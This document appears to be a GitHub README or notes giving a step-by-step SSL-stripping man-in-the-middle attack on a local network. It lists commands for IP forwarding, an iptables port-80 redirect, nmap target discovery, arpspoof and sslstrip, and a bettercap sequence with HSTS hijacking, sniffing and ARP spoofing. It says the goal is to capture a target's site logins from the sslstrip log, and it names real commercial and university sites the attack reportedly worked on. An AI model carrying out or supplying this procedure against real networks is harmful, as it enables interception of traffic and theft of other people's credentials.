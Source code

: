 #### SSLStripping Process
1.  Enable ip_fowarding so the pc can route traffic
ip_forwarding -- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
2. ip rerouting -- iptables...
3.  gateway ip address -- route -n
4. Scan target network to find a specific computer
5. nmap -sP 192.168.1.0/24
6. Review scan results and choose a target
7. Arpspoof to redirect the computers http traffic to our computer
7. Whilst that runs in the background start sslstrip
8. Login via the targets computer into some site
9. Review sslstrip log file  -- cat sslstrip.log
iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

#### Quick overview of networking tools
iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N
iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 
-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed
-p tcp — specifies that the rule applies to tcp packets
-j redirect — specifies that packets should be redirected

#### arpspoof
arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

#### net.probe
net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

#### net.sniff
net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. caplets.show (optional)
2. set http.proxy.sslstrip true
3. hstshijack/hstshijack
4. net.probe on
5. net.sniff on
6. arp.spoof on

* Note: ```help``` can be used to view the currently active & inactive modules.

#### Working Sites (in process)
**Sites that worked:**
alibaba
foxnews
ign.com
speedtest.com

**Institutional Sites:**
carleton.edu
mit.edu
washington.edu
and most likely more…
